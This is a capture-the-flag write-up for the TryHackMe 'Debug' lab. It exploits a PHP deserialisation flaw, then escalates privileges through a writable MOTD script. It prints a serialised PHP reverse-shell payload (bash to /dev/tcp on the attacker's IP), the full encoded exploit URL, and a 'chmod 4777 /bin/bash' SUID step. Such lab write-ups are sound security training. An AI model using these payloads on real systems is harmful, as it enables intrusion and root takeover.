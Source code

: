 # Debug

***

Platform: Tryhackme

Difficulty: Medium

Initial Access: PHP deserialisation vulnerability

Privilege Escalation: Misconfigured File permissions

***

Nmap Scan:

```bash
┌──(ghost㉿kali)-[~/tryhackme/debug]
└─$ cat nmap.full 
# Nmap 7.95 scan initiated Wed Aug 13 01:00:03 2025 as: /usr/lib/nmap/nmap -Pn -A -p- --min-rate 4000 -oN nmap.full 10.201.23.26
Nmap scan report for 10.201.23.26
Host is up (0.24s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
|   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
|_  256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=8/13%OT=22%CT=1%CU=42752%PV=Y%DS=5%DC=T%G=Y%TM=689C1C1
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=A)SEQ
OS:(SP=104%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=A)SEQ(SP=104%GCD=1%ISR=10D%TI=Z%
OS:CI=I%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=A)SEQ(SP=F9%GC
OS:D=1%ISR=10D%TI=Z%CI=RD%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT
OS:11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=6
OS:8DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q
OS:=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%
OS:W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=
OS:)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=
OS:S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RU
OS:CK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Ports     | Methodology                                                                                   |
| --------- | --------------------------------------------------------------------------------------------- |
| 22 (SSH)  | Potentially for later use.                                                                    |
| 80 (HTTP) | Apache httpd 2.4.18 version running on ubuntu. Have to look at what exactly is running there. |

Port 80:

Default Apache web page: It works!, nothing interesting even in source code.

<figure><img src="https://github.com/user-attachments/assets/3c4bcbd2-6f99-48ec-8b3a-10d6f08191d2" alt=""><figcaption></figcaption></figure>

And there was some static website hosted on `/index.php` endpoint.

<figure><img src="https://github.com/user-attachments/assets/5532af9c-c4eb-4f02-b535-5db93a9811e8" alt=""><figcaption></figcaption></figure>

Directory Fuzzing:

<figure><img src="https://github.com/user-attachments/assets/afd9be0d-1051-4ab0-9aa5-c06f48f1c588" alt=""><figcaption></figcaption></figure>

Direcoty fuzzing revealed an interesting endpoints to look - `/backup`

<figure><img src="https://github.com/user-attachments/assets/39090e9a-429a-4fc2-8c38-4f8604e3bc82" alt=""><figcaption></figcaption></figure>

From all those files, one file `index.php.bak` is of our interest, which potentially holds backend code used for that `index.php` endpoint.

Downloading that file and reviewing it’s code revealed a juicy detail or maybe potential vulnerablility in that code, basically vulnerable to php deserialisation.

<figure><img src="https://github.com/user-attachments/assets/6d2e8868-1de5-436a-86fe-fa1bab25c9da" alt=""><figcaption></figcaption></figure>

What that code is doing?

* **Class Definition**
  * `FormSubmit` stores form data (`name`, `email`, `comments`) into a text file (`message.txt`).
  * `$form_file` is the file name.
  * `$message` stores the constructed message string.
* **SaveMessage() method**
  * Pulls values from `$_GET` without sanitization.
  * Builds `$this->message` with the form values.
* **\_\_destruct() method**
  * Runs **automatically when the object is destroyed** (end of script).
  * Appends the `$message` to `message.txt` in the current directory.
  * Prints a success message.
* **Main execution**
  * `$debug = $_GET['debug'] ?? '';`
  * `$messageDebug = unserialize($debug);` ← **big problem**
  * Creates a new `FormSubmit` object.
  * Calls `SaveMessage()`.

Methodology:

* `unserialize()` on **unsanitized user input** (`$_GET['debug']`) lets an attacker create a serialized PHP object of any class — including `FormSubmit`.
* If an attacker injects a serialized `FormSubmit` object with a malicious `$form_file` (e.g., `/var/www/html/shell.php`) and `$message` containing PHP code, the destructor will **write** to that file, resulting in **Remote Code Execution (RCE)**.

***

### Initial Access

Following the above methodology, created a php serialised code for creating the payload, which contains reverse shell.

```bash
┌──(ghost㉿kali)-[~/tryhackme/debug]
└─$ cat test.php     
<?php
class FormSubmit {
    public $form_file = 'shell.php';
    public $message = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.17.87.131/4445 0>&1\'");';
}
echo urlencode(serialize(new FormSubmit));
?>
```

This script will

* create a new class named `FormSubmit`
* `$form_file` variable set to `shell.php` , meaning if this object is unserialized by vulnerable code, and later the object’s destructor writes to `$form_file`, it will write to a file named `shell.php` .
* `$message` variable contains malicious PHP code that executes a reverse shell.
* `serialize(new FormSubmit)` : Makes an object with those malicious property values.
* `urlencode()` encodes for flawless URL delivery.

Generated final payload via this php code.

<figure><img src="https://github.com/user-attachments/assets/aa431f96-cff5-4f82-920c-1e1383f08da4" alt=""><figcaption></figcaption></figure>

At this point, just started netcat listner and delivered that payload to the `debug` parameter like these:

```bash
http://10.201.44.136/index.php?debug=O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A7%3A%22message%22%3Bs%3A71%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.17.87.131%2F4445+0%3E%261%27%22%29%3B%22%3B%7D
```

```bash
http://10.201.44.136/shell.php
```

And went to `/shell.php` endpoint to trigger that reverse shell and got the shell back on my machine.

<figure><img src="https://github.com/user-attachments/assets/2d67d983-72d9-466f-a778-64ed6ea3704d" alt=""><figcaption></figcaption></figure>

And here in that same directory, where we landed, there was a file `.htpasswd` which revealed james user’s password hash.

<figure><img src="https://github.com/user-attachments/assets/a1b4977f-f9ee-4c14-a485-2b6aba75ce3c" alt=""><figcaption></figcaption></figure>

Cracked that hash via john the ripper

<figure><img src="https://github.com/user-attachments/assets/9238100f-1a7b-494f-8959-6e8cd8253da5" alt=""><figcaption></figcaption></figure>

With the following credentials switched to user james in that same shell

<figure><img src="https://github.com/user-attachments/assets/1b4ca604-0ba0-4d5d-9fff-f84f7b9c44d5" alt=""><figcaption></figcaption></figure>

Grabbed user flag in the james’s home directory:

<figure><img src="https://github.com/user-attachments/assets/87515ccd-09e2-436d-9a5c-0a18668eaf29" alt=""><figcaption></figcaption></figure>

***

### Privilege Escalation

There was suspicious note file which revealed something juicy hint for us.

<figure><img src="https://github.com/user-attachments/assets/16a1db57-b99b-4972-af60-d19a1f2bd0be" alt=""><figcaption></figcaption></figure>

Found out files from /etc directory, on which user james had write access to.

<figure><img src="https://github.com/user-attachments/assets/f5d7aec1-5d37-4c76-b7d0-3fee2c079679" alt=""><figcaption></figcaption></figure>

Changed directory to `/etc/update-motd.d` where user james had write access and enumerating those files, found `00-header` file where we can easily add our commands too.

<figure><img src="https://github.com/user-attachments/assets/2cec7dc8-0d64-44f4-b310-d92af2f15dbd" alt=""><figcaption></figcaption></figure>

Simply added `chmod 4777 /bin/bash` command in that file, which will set SETUID bit on /bin/bash binary, when we log in as user james via ssh.

<figure><img src="https://github.com/user-attachments/assets/f945a3eb-0472-40d5-96f9-2866dc0251c4" alt=""><figcaption></figcaption></figure>

Logged in to user james account via SSH

<figure><img src="https://github.com/user-attachments/assets/d8f083ac-839e-465e-9a2b-19b48e05c750" alt=""><figcaption></figcaption></figure>

Executed /bin/bash binary and got euid set to root and now, we are able to read root.txt file.

<figure><img src="https://github.com/user-attachments/assets/92039a31-162a-47f1-b118-1a562697a69c" alt=""><figcaption></figcaption></figure>

***

That’s it for this machine.✅
